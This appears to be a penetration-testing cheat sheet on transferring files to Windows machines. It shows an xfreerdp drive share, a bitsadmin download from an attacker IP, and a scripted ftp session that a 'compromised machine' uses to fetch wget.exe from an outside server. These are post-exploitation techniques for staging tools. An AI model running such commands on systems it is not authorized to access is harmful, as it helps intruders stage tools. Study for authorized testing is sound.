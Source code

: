 # Transferring Files to Windows

Transferring files to Linux is usually pretty easy. We can use `netcat`, `wget`, or `curl`, which most systems have as default. But windows does not have these tools.

## To and from client to server SMB / RDP

If you are using RDP on windows you can just attach a directory to share from when you start your RDP session.

```
xfreerdp /u:MYUSERNAME /v:10.10.10.1111 /drive:fildel,/home/temp/tmp
```

Now you can simply open the Computer part in your Explorer window, and you should see the disk `fildel`. In that share you can share documents between your computer and the RDP server.

## From client to server SMB / RDP

A simple way is simply to to connect to your server with xfreerdp and then open up the fil-browser in your linux machine, and copy the file. Then go to your windows server and simply paste the file. For me it only works in that direction, and not the reverse.

## From X server to Windows (Bitsadmin)

Downloading a file with CMD can be done with bitsadmin.

```
bitsadmin /transfer aaa http://192.168.66.87/apaa.txt c:\Users\temp\aaa.txt
```

## FTP

Most windows machines have a ftp-client included. But we can't use it interactively since that most likely would kill our shell. So we have get around that. We can however run commands from a file. So what we want to do is to echo out the commands into a textfile. And then use that as our input to the ftp-client. Let me demonstrate.

On the compromised machine we echo out the following commands into a file

```
echo open 192.168.1.101 21> ftp.txt
echo USER asshat>> ftp.txt
echo mysecretpassword>> ftp.txt
echo bin>> ftp.txt
echo GET wget.exe>> ftp.txt
echo bye>> ftp.txt
```

Then run this command to connect to the ftp

```
ftp -v -n -s:ftp.txt
```
